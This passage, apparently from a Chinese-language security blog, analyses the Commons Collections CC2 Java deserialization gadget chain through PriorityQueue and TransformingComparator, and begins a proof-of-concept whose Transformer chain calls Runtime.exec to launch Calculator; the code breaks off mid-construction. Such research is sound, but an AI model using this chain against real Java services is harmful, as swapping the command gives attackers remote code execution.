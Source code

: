 看一下 `PriorityQueue#siftDown`

![](Commons-Collections-反序列化利用链分析/image-20210212222808177.png)

随后调用到关键的方法 `PriorityQueue#siftDownUsingComparator` 

![](Commons-Collections-反序列化利用链分析/image-20210212222905993.png)

在漫长的调用栈中，最重要的参数就是 comparator。可控我们即可 RCE

优化 payload 的过程中，网上很多文章都会用反射去附值，其实 PriorityQueue 初始化的时候也可以直接附值，但是会触发多次 payload。

**fake CC2 payload**

```java
public class CC2 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException,
            InstantiationException, NoSuchFieldException, IOException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        TransformingComparator comparator = new TransformingComparator(fakeChain);
        PriorityQueue queue = new PriorityQueue(1);
```